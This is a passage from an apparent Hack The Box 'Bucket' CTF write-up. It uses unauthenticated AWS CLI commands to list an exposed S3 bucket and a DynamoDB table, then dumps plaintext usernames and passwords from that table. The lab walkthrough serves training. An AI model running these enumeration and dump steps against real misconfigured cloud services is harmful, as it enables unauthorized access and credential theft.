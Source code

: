 ```
luka@kali:~/htb/bucket/lazys3$ aws s3 ls --endpoint-url http://s3.bucket.htb --no-sign-request
2021-01-26 13:05:03 adserver
```

Another command that can be used is dynamodb (few screenshots above, we've seen that s3 and dynamodb services are running.)

This is the main difference between s3 and dynamodb:

> S3 is an object store, designed for large binary unstructured data. It can store individual objects up to 5 TB. The objects are aggregated into buckets. A bucket is like a namespace or a database table, or, if you prefer a file system analogy, it is like a disk drive. Buckets are always located in a particular region. You can easily set up cross-region replication for faster local access or backups. However, generally it’s best if one region is the reference data source, because multi-master replication with S3 is not easy to set up.

> DynamoDB is a document database, or, if you like buzzwords, a NoSQL database. Although it can keep binary objects as well, it’s really designed for storing structured textual (JSON) data, supporting individual items up to 400 KB. DynamoDB stores items in tables, which can either be in a particular region or globally replicated. DynamoDB Global Tables supports multi-master replication, so clients can write into the same table or even the same item from multiple regions at the same time, with local access latency.

Reference: https://serverless.pub/s3-or-dynamodb/

```
luka@kali:~/htb/bucket/lazys3$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/ --no-sign-request
{
    "TableNames": [
        "users"
    ]
}
```
```
luka@kali:~/htb/bucket/lazys3$ aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/ --no-sign-request
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
```